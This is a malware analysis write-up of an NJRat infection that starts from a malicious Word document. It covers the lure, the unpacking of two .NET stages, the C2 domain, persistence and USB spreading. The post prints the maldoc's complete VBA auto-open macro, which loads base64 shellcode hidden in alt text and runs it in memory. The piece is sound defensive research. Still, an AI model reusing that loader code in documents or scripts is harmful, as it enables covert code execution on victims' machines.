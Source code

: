 ```yaml
---
tags: RATs
---
```

## NJRat Injection From Malicious Document

Another RAT variant, NJRat is typically attributed to ECRime actors, it is supposedly popular with actors in the Middle East. It's primary infection vectors are phishing attacks and drive-by downloads, and like many other RATs, it has the capability to log keystrokes, access the victim's camera, steal credentials stored in browsers, open a reverse shell, upload/download files, view the victim's desktop, perform process, file, and registry manipulations, etc...

This sample was taken from the following [tweet](https://twitter.com/DmitriyMelikov/status/1696050783790207060)

[-] Maldoc [VirusTotal](https://www.virustotal.com/gui/file/12237938501141149337015c546b5e02acf3b98c1c26a84b5b4befd97d0f66d0/detection)

[-] PE Payload [VirusTotal](https://www.virustotal.com/gui/file/66702e21faa38c24f49a33112d2036d8f3b6bcfd686db47299a4dc44dedf13d8/detection)

## Maldoc

Like most other maldocs which leverage macros, the document lures the user into enabling content.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/da75e6b8-26e0-4d18-ba83-fd86a19bcdd9)

We can interrogate this macro by using OLE tools to view it.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c521ee37-e76b-4b24-b3f7-7bf4dd102d94)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/66db0700-4e12-4eba-94e4-6621bb1b38d7)

```
Attribute VB_Name = "Module1"
Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal six As Long, ByVal five As Long, ByVal four As LongPtr, three As Long, ByVal two As Long, one As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal seven As Long, ByVal eight As Long, ByVal nine As Long, ByVal ten As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal eleven As LongPtr, ByVal twelve As LongPtr, ByVal thirteen As Long) As LongPtr
Public Function db(base64) As Byte()
  Dim DM As Variant, EL As Variant
  Set DM = CreateObject("Microsoft.XMLDOM")
  Set EL = DM.createElement("tmp")
  EL.DataType = "bin.base64"
  EL.Text = base64
  db = EL.NodeTypedValue
End Function

Sub autoopen()
    Dim var2() As Byte
    Dim var4 As LongPtr
    Variables = ActiveDocument.InlineShapes(1).AlternativeText
    var2 = db(Variables)
    var6 = VirtualAlloc(0, UBound(var2), &H1000, &H40)
    var4 = RtlMoveMemory(var6, VarPtr(var2(0)), UBound(var2))
    var4 = CreateThread(0, 0, var6, 0, 0, 0)

   ActiveDocument.Range.Font.Hidden = False
End Sub
```

Essentially, a Base64 string is being taken from ActiveDocument.InlineShapes(1).AlternativeText and decoded, we can assess that the contents are then executed in memory using CreateThread, VirtualAlloc and RtlMoveMemory API calls.

The base64 string is hidden inside a text box on the first page of the document, utilising the Alternative Text field

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/4c944195-0f30-4bdb-bf49-6967865241bd)

I found the full string by querying the 'Data' stream, using OLE tools.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/fe007626-91e1-4cc1-b51f-5667a6ddfdf0)

_Base64 Snippet:_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/53b37b49-c1de-4051-83c8-fae9faddce0c)


Once this code is injected and executed, it drops a PE in the location 'C:\Users\george\AppData\Roaming\netflex\netflex.exe', as well as employing some persistence mechanisms, such as a vbs script in the startup folder and a registry run key.

## 1st Executable 

Taking a look at the dropped 'netflex.exe' in DNSpy, there are a few things to note.

Firstly, the binary does a basic check to decide if the host is in a virtualised environment by querying Win32_CacheMemory

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/6882b2c3-d2b7-4700-b20d-9296049a7200)

If there is a value for Win32_CacheMemory, the program assumes the host is not a virtual machine and will execute the next function.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/af3e374a-7c42-4e6f-8775-aae8ad36c471)

The first line derives an AES key by getting the SHA 256 value of Settings.aes_key and taking the first 32 bytes.

The second line takes the contents of baseData, converts it from base64, decompresses the data with the Decompress function, decrypts the data and finally base64 decodes the unencrypted data.

_Decompress Function_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/a0e449f9-0ef4-4d75-b12f-19acbe97c7dd)

The key point here is that the first 4 bytes of baseData declare the length of the data and are not needed for decompression.

The Settings class is compromised of 3 key components, baseData, aes_key and aes_iv.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/1f4f0997-0af7-488a-bfde-bdd9bfda3e2d)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/6f646fb8-e4a7-4d4b-b7db-b210541829ea)

We now have everything needed to decrypt the base64 string.

1) Copy and paste the baseData string, convert it from base64.
2) Remove the first 4 bytes
3) Decompress with Gunzip
4) AES decrypt with base64 key "78e3e7cc513ff8ae00a177366efa4060" _(First 32 bytes of the SHA 256 value of'Q4NP7JPHRA5AJB28')_
5) Decode from base64

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/aa810be8-fab3-4223-bf4a-7d1de792bfdd)

This leaves us with another .NET executable.

## 2nd Executable

Within this executable, we can see the C2 domain and installation directory being declared: netflex.duckdns[.]org:2255

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/6f7fd25f-61d4-4658-bfac-a22c4f894da3)

There is also the capability for replication across removable media drives.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/381c8cc6-fca3-42da-ad73-5d1b4f3e790f)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/8eb4112f-fa44-46a2-924a-711cf073aca0)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b47f825d-f9e8-4a07-b3be-14859f79be54)

And previously noted registry run key additions.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d6b7e8d2-0be3-448d-9eb2-f1bb0ec4b51c)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d7224c19-bd8c-4827-a730-1183d14bfcc3)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/f4bf9291-5090-486c-bffd-33e51d3adcc3)

As well as the binary being copied to the Startup directory.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/27e7f7c9-0c18-4648-9119-7acc0357a85d)


















